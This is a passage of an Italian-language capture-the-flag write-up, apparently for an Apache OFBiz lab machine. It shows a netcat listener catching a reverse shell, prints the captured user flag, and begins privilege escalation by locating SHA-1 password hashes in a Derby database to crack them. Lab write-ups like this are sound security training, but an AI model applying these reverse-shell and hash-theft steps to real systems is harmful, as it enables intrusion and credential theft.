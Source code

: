 ```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.252] 50920
whoami
ofbiz
which python3
/bin/python3
```

facciamo l'upgrade alla shell e ci prendiamo la nostra user flag

```bash
ofbiz@bizness:/home$ cd ofbiz/
ofbiz@bizness:~$ ls
user.txt
ofbiz@bizness:~$ cat user.txt
826d1395d7b00a4b9e29620ff5095e4a
```

# PRIVESC

L'enumerazione standard del sistema non ci porta da nessuna parte, quindi diamo uno sguardo più da vicino alla configurazione OFBiz. L'installazione si trova in `/opt/ofbiz/
La nostra ricerca ci porta alla conclusione che la directory `framework/` contiene la maggior parte dei file di configurazione che potrebbero interessarci, poiché contiene tutti i cosiddetti componenti gestiti da OFBiz

Una sottodirectory chiamata `securty` attira la nostra attenzione e indaghiamo ulteriormente. I componenti in OFBiz sono tutti strutturati allo stesso modo e contengono un file ofbiz-component.xml, nonché config/ ,
data/ e src/ directory, tra gli altri. All'interno della directory config troviamo il file security.properties, che contiene la seguente voce:

```bash
# -- specify the type of hash to use for one-way encryption, will be passed to
java.security.MessageDigest.getInstance() --
# -- options may include: SHA, PBKDF2WithHmacSHA1, PBKDF2WithHmacSHA256,
PBKDF2WithHmacSHA384, PBKDF2WithHmacSHA512 and etc
password.encrypt.hash.type=SHA
```

Questa è un'installazione predefinita di OFBiz, poiché sembra che l'algoritmo di hashing per le password non sia stato modificato da SHA-1.
Questa è una buona notizia per noi, dal momento che SHA-1 non è più considerato un algoritmo di hashing sicuro, quindi se riusciamo a trovare le password memorizzate, potremmo essere in grado di decifrarle.
Ciò solleva la domanda successiva, vale a dire dove sono archiviate le password e altre informazioni in Apache OFBiz. La nostra ricerca rivela che, per impostazione predefinita, OFBiz utilizza un database Java incorporato chiamato Apache Derby.

La lettura di varia documentazione ci porta alla conclusione che i file di Derby sono archiviati nella directory runtime/opt/ofbiz/runtime/data/derby
